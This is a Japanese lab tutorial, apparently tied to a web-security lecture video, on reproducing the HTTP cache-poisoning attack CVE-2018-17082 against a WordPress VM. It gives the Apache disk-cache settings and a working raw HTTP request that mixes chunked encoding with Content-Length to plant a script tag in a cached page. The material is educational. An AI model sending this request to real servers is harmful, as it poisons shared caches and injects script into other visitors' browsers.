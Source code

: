 # CVE-2018-17082に学ぶHTTPキャッシュ汚染攻撃

- 本日お伝えしたいこと
    - CVE-2018-17082のおさらい
    - CVE-2018-17082 によるHTTPキャッシュ汚染攻撃の方法
- 前提となる環境
    - 徳丸本VM（WordPressインストール済み）
    - OWASP ZAP (Burp Suite等でも可）

# 設定の方法

## mod_disk_cacheの設定

```
$ sudo a2enmod cache_disk
$ cd /etc/apache2/mods-enabled/
$ sudo vi cache_disk.conf
```
 cache_disk.confの内容は下記

 ```
<IfModule mod_cache_disk.c>
        CacheRoot /var/cache/apache2/mod_cache_disk
        CacheEnable disk /
        CacheDisable /wp-admin/
        CacheDisable /wp-content/
        CacheDisable /wp-includes/
        CacheDetailHeader On

        # No Cache when Set-Cookie headers
        CacheIgnoreHeaders Set-Cookie

        # Cache when Request with no-cache header
        CacheIgnoreCacheControl On

        CacheDirLevels 2
        CacheDirLength 1
</IfModule>
 ```

```
$ sudo systemctl restart apache2
$ cd /var/www/html/wp/wp-content/themes/twentyseventeen/
$ sudo vi functions.php
```

functions.phpの末尾に下記を追加

```
// Add Header for mod_cahce
add_action('template_redirect', function () {
    if (! is_user_logged_in()) {
        header('Cache-Control: s-maxage=60');
    }
});
```

これで準備完了

# 攻撃1 (攻撃者、能動的) 

PoC（攻撃文字列）は下記（Transfer-Encoding: chunked以下の部分）
（最後の行は改行を削除しておく）

```
GET http://example.jp:88/wp/ HTTP/1.1
User-Agent: Mozilla/5.0
Transfer-Encoding: chunked
Content-Length: 32
Host: example.jp:88

<script>alert('Hacked')</script>
```

# 攻撃2（被害者、受動的）

単に下記コンテンツを閲覧するだけ

http://example.jp:88/wp/


動画URL : https://youtu.be/jhyB5bcrdyo

YouTubeチャンネル　[徳丸浩のウェブセキュリティ講座](https://www.youtube.com/channel/UCLNW6Bo_YU3TxnzsII2gEDA)
